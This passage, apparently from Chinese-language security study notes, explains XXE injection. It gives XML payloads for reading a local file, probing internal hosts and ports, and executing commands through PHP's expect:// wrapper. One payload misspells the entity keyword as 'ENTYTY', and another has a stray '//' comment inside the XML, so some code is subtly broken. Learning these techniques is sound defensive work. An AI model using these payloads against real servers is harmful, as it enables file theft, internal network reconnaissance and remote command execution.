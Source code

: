 **备注：**前提条件是存在那个文件

#### 演示

本地D盘下存在一个名为`www.txt`的文件，内容是`123456789`，利用该XXE漏洞进行读取，则payload如下：

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
		<!ENTITY xxe SYSTEM "file:///D:/www.txt">
]>
<x>&xxe;</x>
```

成功读取

![](https://gitee.com/YatJay/image/raw/master/img/202203152105019.png)

### XXE漏洞内网探针或攻击内网应用(触发漏洞地址)

#### 用法

```xml
<?xml version = "1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTYTY rabbit SYSTEM "http://内网IP:端口/文件名">
]>
<x>&rabbit;</x>
```

**备注：**上面的ip地址假设就是内网的一台服务器的ip地址。还可以进行一个端口扫描，看一下端口是否开放。

#### 利用

如果访问成功，则会通过Web服务器访问内网地址，可以利用此漏洞

1. 探测该内网IP的指定端口是否开放：引号内写成`http://内网IP:端口`
2. 若有端口开放，则探测该内网IP的指定文件是否存在：引号内写成`http://内网IP:端口/文件名`



### XXE漏洞进行RCE

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
		<!ENTITY xxe SYSTEM "expect://id">  //id是对于的执行的命令。
]>
<x>&xxe;</x>
```

**备注：**需要目标服务器时安装expect扩展的PHP环境里执行系统命令。条件较为苛刻，实战情况比较难碰到。

### XXE漏洞引入外部实体DTD

#### 用法

